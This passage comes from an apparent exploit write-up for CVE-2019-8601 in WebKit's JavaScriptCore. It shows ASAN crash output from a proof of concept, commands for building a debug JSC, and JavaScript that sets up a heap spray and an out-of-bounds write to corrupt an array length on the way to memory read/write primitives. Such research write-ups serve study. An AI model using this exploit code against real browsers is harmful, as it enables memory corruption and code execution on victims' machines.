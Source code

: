 ```js
```

Finally, we can successfully trigger the bug.

```bash
$ ~/work/browser/webkit_svn/WebKitBuild/Debug/bin/jsc poc.js
WARNING: ASAN interferes with JSC signal handlers; useWebAssemblyFastMemory will be disabled.
AddressSanitizer:DEADLYSIGNAL
=================================================================
==97842==ERROR: AddressSanitizer: SEGV on unknown address 0x62d1000bbdc8 (pc 0x7f7801cffaeb bp 0x7ffe2b4a1e30 sp 0x7ffe2b4a1d80 T0)
==97842==The signal is caused by a WRITE memory access.
    #0 0x7f7801cffaea  (<unknown module>)

AddressSanitizer can not provide additional info.
SUMMARY: AddressSanitizer: SEGV (<unknown module>)
==97842==ABORTING
```

Actually, i don't know the reason why a small callback can successfully bypass the `slow path` clearly, just follow the explanation in  `BadAccess11`'s [wp](https://github.com/BadAccess11/CVE-2019-8601), if anybody knows why, please tell me. Also if i learn more about the `WebKit allocator` and figure out why, i'll go back to here to explain clearly.

## exploit

The exploit is a little complicated.

Now we can trigger the vulnerability, to exploit it we need to compile the `no asan` version first.

```bash
Tools/Scripts/set-webkit-configuration --no-asan
Tools/Scripts/build-webkit --jsc-only --debug
```

In the poc, we can trigger a heap out-of-bound write. According to the previous experience, our target is to build `addr_of`, `fake_obj`, `aaw` and  `aar` primitives.

First thing we need to do is that build a heap layout, and trigger the heap overflow to write the `length` field of the `victim` array. The key code is shown as below, first create a `float` array and a `object` array. In the `helper` callback function, `spray` the `float_arr` and `obj_arr`, this will form the `obj_arr`'s memory is next to the `float_arr`'s memory. At last we trigger the vulnerability, it will overwrite the `evil_val` to the `float_arr` and `obj_arr`'s memory.

```js
let evil = [];

let len = 0x20000010 / 0x10;

// evil_val will overwrite the float_arr's length field
let evil_val = i2f(0x202000002020);
for(let i = 0; i < len; i++){
  evil[i] = evil_val;
}


let helper = []; 
helper.length = 1;

let spray_arr = new Array(0x8000);
let float_arr = new Array(0x10);
float_arr.fill(1.1);
let obj_arr = new Array(0x10);
obj_arr.fill({});
// print(describe(float_arr));
// print(describe(obj_arr));

```